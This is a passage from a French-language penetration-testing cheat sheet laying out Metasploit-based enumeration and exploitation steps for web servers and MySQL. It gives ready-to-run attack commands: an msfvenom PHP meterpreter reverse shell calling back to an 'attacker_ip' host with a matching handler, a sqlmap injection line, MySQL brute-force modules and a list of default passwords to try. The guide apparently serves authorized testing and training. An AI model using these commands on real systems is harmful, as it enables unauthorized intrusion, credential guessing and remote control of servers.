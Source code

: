 ```bash
use auxiliary/scanner/http/dir_scanner
set RHOSTS target
set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```

#### ⚔️ Exploitation selon technologie
| Technologie détectée | Actions |
|---------------------|---------|
| **Apache** | `nikto -h target`, recherche CVE version |
| **IIS** | `use auxiliary/scanner/http/iis_shortname_scanner` |
| **WordPress** | `use auxiliary/scanner/http/wordpress_scanner` |
| **Joomla** | `use auxiliary/scanner/http/joomla_scanner` |
| **Tomcat** | `use auxiliary/scanner/http/tomcat_mgr_login` |
| **File upload** | Tester upload de shells |
| **SQL injection** | `sqlmap -u "http://target/page.php?id=1"` |

**🔥 Upload de shell commun :**
```bash
# Si upload de fichiers trouvé
# Créer un shell PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > shell.php

# Setup handler
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit
```

---

### 3.5 Si port 3306 (MySQL) détecté

#### 🔍 Détection
```bash
# Metasploit
use auxiliary/scanner/mysql/mysql_version
set RHOSTS target
run
```

#### ⚔️ Exploitation
| Action | Commande |
|--------|----------|
| **Brute force** | `use auxiliary/scanner/mysql/mysql_login` |
| **Weak passwords** | Tester root:root, root:"", admin:admin |
| **SQL execution** | `use auxiliary/admin/mysql/mysql_sql` |

---